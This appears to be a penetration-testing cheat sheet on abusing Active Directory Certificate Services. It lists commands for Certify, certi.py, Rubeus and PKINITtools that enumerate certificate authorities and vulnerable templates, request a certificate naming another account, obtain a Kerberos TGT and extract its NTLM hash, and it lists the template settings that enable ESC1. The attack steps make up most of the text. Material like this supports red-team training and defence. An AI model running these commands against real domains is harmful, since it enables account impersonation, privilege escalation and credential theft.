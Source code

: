 # ADCS

### PKI Abuse
It is recommended to use below commands with `-k` option and .cacche file. Please refer [Request TGT](#request-tgt) section

1. Enumerate CA(s) on the domain
```bash
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --class ca
```
2. Enumerate for vulnerable templates
```bash
# Windows
Certify.exe find /clientauth

# Linux
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --vuln --enable
```
3. Request cert from CA
```bash
# Windows
Certify.exe request /ca:dc.legitcorp.local\CA01 /template:vuln-template

# Linux
python3 certi.py req '<domain>/<username>@<ca-server>' <ca-service-name> -k -n --dc-ip <dc-ip> --template <vuln-template> --alt-name <target-domain-account>
```
4. Retrieve TGT by using the certificate
```bash
# Windows
Rubeus.exe asktgt /user:lowpriv /certificate:cert.pfc /password:P@$$w0rd

# Linux
python3 gettgtpkinit.py <domain>/<username> -cert-pfx <pfx-certificate-file> -pfx-pass <certificate-password> -dc-ip 192.168.86.183 admin_tgt.ccache   
```
5. Retrieve NTLM hash (optional)
At this point, you can either use environment variable `KRB5CCNAME` to be used with ccache file or you can either get ntlm hash from the ticket with the following Commands
```bash
python3 getnthash.py -key <AS-REP-encryption-key> -dc-ip <dc-ip> <domain>/<username> output_tgt.ccache
```

For detailed example, you may refer to this awesome [gist](!https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250) by [@Flangvik](!https://twitter.com/Flangvik)

### ESC1

What makes a template vulnerable to ESC1 is when the following requirements are met:

| Attributes                             | Value                             |
| -------------------------------------- | --------------------------------- |
| `msPKI-Certificate-Name-Flag`          | `(0x1) ENROLLEE_SUPPLIES_SUBJECT` |
| `pKIExtendedKeyUsage`                  | Client Authentication             |
| `msPKI-Certificate-Application-Policy` | Client Authentication             |
| Enrollment Rights                      | Domain Users                      |
